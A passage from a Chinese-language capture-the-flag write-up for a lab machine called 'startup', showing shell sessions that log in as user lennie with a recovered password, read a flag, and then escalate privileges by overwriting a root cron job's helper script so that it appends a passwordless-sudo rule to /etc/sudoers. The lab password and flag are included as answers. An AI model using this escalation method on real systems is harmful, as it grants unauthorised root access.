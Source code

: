 ```
www-data@startup:/vagrant$ sudo -l
sudo -l
sudo: unable to resolve host startup
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

sudo: 3 incorrect password attempts
```

```
www-data@startup:/vagrant$ su lennie
su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/vagrant$ whoami
whoami
lennie
lennie@startup:/vagrant$ id
id
uid=1002(lennie) gid=1002(lennie) groups=1002(lennie)
lennie@startup:/vagrant$ cd ~
cd ~
lennie@startup:~$ pwd
pwd
/home/lennie
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
lennie@startup:~$ ls -al      
ls -al
total 20
drwx------ 4 lennie lennie 4096 Nov 12  2020 .
drwxr-xr-x 3 root   root   4096 Nov 12  2020 ..
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
lennie@startup:~$ cat user.txt
cat user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

这里的思路很明确，planner.sh是root用户的Cron Job，lennie不能修改该文件。但是，查看planner.sh文件的内容，发现其中执行了/etc/print.sh脚本，/etc/print.sh脚本属于lennie，lennie可以修改/etc/print.sh。所以，将/etc/print.sh的内容修改为如下，意味将`sudo` 命令的权限设置为：用户 `lennie` 可以在所有主机上以任何用户的身份（即不需要密码）执行任何命令。

```bash
#!/bin/bash
echo "lennie ALL=NOPASSWD:ALL" >> /etc/sudoers
```

